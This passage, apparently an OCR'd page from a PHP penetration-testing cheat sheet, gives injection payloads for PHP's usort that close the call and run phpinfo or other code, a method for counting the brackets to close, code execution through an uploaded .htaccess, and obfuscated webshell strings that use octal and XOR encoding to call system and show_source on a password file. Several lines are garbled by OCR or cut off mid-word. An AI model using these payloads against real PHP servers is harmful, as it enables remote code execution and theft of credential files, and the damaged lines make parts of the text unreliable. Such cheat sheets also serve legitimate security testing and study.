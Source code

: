 This function is used to sort an array of items using an specific function.
To abuse this function:

<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#
​
<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>

<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#
​
<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>

You can also use // to comment the rest of the code.

To discover the number of parenthesis that you need to close:

    ?order=id;}//: we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.

    ?order=id);}//: we get a warning. That seems about right.

    ?order=id));}//: we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.

Code execution via .httaccess

If you can upload a .htaccess, then you can configure several things and even execute code (configuring that files with extension .htaccess can be executed).

Different .htaccess shells can be found here​
PHP Static analysis

Look if you can insert code in calls to these functions (from here):

exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea

If yo are debugging a PHP application you can globally enable error printing in/etc/php5/apache2/php.ini adding display_errors = On and restart apache : sudo systemctl restart apache2
Execute PHP without letters

​https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/​
Using octal

$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);

XOR

$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)

